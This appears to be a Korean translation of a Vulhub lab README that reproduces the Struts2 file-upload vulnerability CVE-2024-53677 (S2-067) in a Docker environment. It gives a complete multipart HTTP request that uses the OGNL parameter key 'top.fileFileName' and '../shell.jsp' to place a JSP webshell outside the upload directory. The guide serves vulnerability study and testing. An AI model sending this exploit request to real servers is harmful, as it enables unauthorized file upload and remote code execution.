



# Struts2 파일 업로드 취약점 (CVE-2024-53677)

> 

[중국어 버전(Chinese version)](https://github.com/vulhub/vulhub/blob/master/struts2/s2-067/README.zh-cn.md)
[영어 버전(English version)](https://github.com/vulhub/vulhub/blob/master/struts2/s2-067/README.md)

Apache Struts2는 Java EE 웹 애플리케이션 개발을 위한 인기 있는 오픈 소스 웹 애플리케이션 프레임워크입니다. Java Servlet API를 기반으로 이를 확장하여, 개발자들이 모델–뷰–컨트롤러(MVC) 아키텍처를 손쉽게 적용할 수 있도록 도와줍니다. Struts2는 유지보수가 쉽고 확장 가능한 기업용(Enterprise) 웹 애플리케이션을 만들 수 있도록 다양한 태그와 유틸리티를 제공합니다.

S2-067은 불완전한 보완 조치로 인해 발생한 S2-066 취약점의 변종입니다. S2-066은 대소문자 구분 비교 문제로 인해 파일 이름 덮어쓰기와 디렉터리 탐색이 가능해던 반면, S2-067은 동일한 결과를 얻기 위해 다른 매커니즘을 악용합니다.

Struts2에서는 모든 파라미터 키가 전달 과정에서 OGNL 표현식으로 평가됩니다. 이 기능은 과거에도 OGNL 표현식 삽입을 통한 원격 코드 실행(RCE) 취약점으로 이어진 바 있습니다. Struts2는 이러한 RCE를 막기 위해 파라미터 키에 대한 엄격한 검증을 도입했지만, 여전히 표현식 평가 자체는 이루어지고 있습니다. S2-067은 이 표현식 평가 메커니즘을 다시 악용해 업로드 파일 이름을 덮어쓸 수 있게 만들고, 결국 디렉터리 탐색 문제로 이어지게 됩니다.

참고 문헌(References):

- <https://cwiki.apache.org/confluence/display/WW/s2-067>
- <https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/>

## 환경 설정(Environment Setup)

다음 명령을 실행하여 Struts2 2.5.33 버전으로 웹 서버를 시작합니다.

```
docker compose up -d
```

환경이 실행된 후 `http://your-ip:8080`에 접속해서 간단한 파일 업로드 페이지에 접근합니다.

## 취약점 재현

S2-067 취약점을 재현하기 전에, 먼저 [S2-066](https://github.com/vulhub/vulhub/blob/master/struts2/s2-066/README.md)을 읽고 해당 취약점의 원리를 이해해야 합니다.

이 서버에서 대소문자 구분 문제는 이미 해결되었기 때문에, S2-066에서 사용했던 동일한 페이로드는 사용할 수 없습니다.



filename 파라미터 키에 OGNL 표현식인 `top.fileFileName`을 사용하면, 업로드된 파일이 다시 `upload/` 디렉터리 밖으로 저장됩니다.

```
POST /index.action HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Length: 335

------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: text/plain

<%
  out.println("hello world");
%>
------WebKitFormBoundaryl6ZFZPznNSPZOFJF
Content-Disposition: form-data; name="top.fileFileName"

../shell.jsp
------WebKitFormBoundaryl6ZFZPznNSPZOFJF--
```

익스플로잇에서 주의해야 할 핵심 요소는 다음과 같습니다.

- S2-066처럼 대소문자 구분을 이용하는 대신, 파라미터 키에서 OGNL 표현식 평가를 사용합니다.
- `top.fileFileName`이라는 파라미터 키는 OGNL 표현식으로 평가됩니다.
- 이 평가 과정을 통해 `../shell.jsp`와 같은 경로 탐색 페이로드로 파일 이름을 덮어쓸 수 있습니다.



이제 JSP 파일이 제한된 업로드 디렉터리 밖에 업로드되었고, 실행할 수 있게 되었습니다.



`http://your-ip:8080/shell.jsp` 주소로 접속하면 웹쉘에 접근할 수 있습니다.

## Github 주소
- [Github Repository 주소]()
- [Pull Request 주소]()
